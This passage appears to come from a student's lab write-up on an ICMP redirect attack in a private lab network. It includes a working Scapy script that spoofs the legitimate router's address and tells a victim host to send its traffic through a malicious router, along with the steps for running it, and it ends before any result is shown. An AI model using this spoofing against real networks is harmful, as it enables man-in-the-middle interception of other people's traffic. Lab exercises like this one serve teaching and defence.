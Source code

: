   * ![alt text](image-24.png)
  * now we see that the victim sends to the intermediate router 10.9.0.11 (correct router)
  * send it sends the message to the server **192.168.60.5**
  * this is the normal way
* Third Step, we need to craft the python code on the **attacker machine** to send the spoofed ICMP redirect message
  * this is the code which you can use
  ```python                                
      #!/usr/bin/python3 -> telling linux to run the script using python3

      from scapy.all import * # importing all important functions from scapy library

      '''
         creates the outer ip packet 
            10.9.0.11 -> spoofed router, pretending to be the real router
            10.9.0.5 -> victim ip where the spoofed ICMP redirect will be sent
      '''
      ip = IP(src= '10.9.0.11', dst = '10.9.0.5')

      # creating icmp redirect packet type = 5, 
      # code = 1 means host redirect as explained before
      icmp = ICMP (type=5, code=1)

      # sets the gateway as the mallicious router
      # tells the victim to send traffic to this ip which is the attacker mal router
      icmp.gw = '10.9.0.111'

      # This is the embedded original ip packer from the victim to the server
      # The enclosed IP packet should be the one that triggers the redirect message
      ip2 = IP (src = '10.9.0.5', dst = '192.168.60.5')

      # finally sending the message
      send(ip/icmp/ip2/ICMP()); 

    #This packet tells the victim:
    #"Hey, for traffic to 192.168.60.5, send it via 10.9.0.111 instead of me."
  ``` 
  * then you need to save it, then make it excutable using this command: 
    > chmod a+x **filename.py**
* Fourth step: you need to make a communication between the **victim** and the server, ie: ping from vitim to the server
  * from the victim machine, excute this command: 
    > ping 192.168.60.5 > log.txt
* Fifth step: you should run the script from the **attacker machine**, and theoritically if everything goes correct, you should establish yourself as man in the middle now, and you can see on the victim machine using mtr that the malicious router is now in between.    
* lets try and see if this will work out.  
  * executing ping on victim and route it to .log file
    * > ping 192.168.60.5 > log.txt
    * we need to keep the ping running for a while till we can see the malicious router in the middle between the victim and the server.
  * executing the script on the attacker 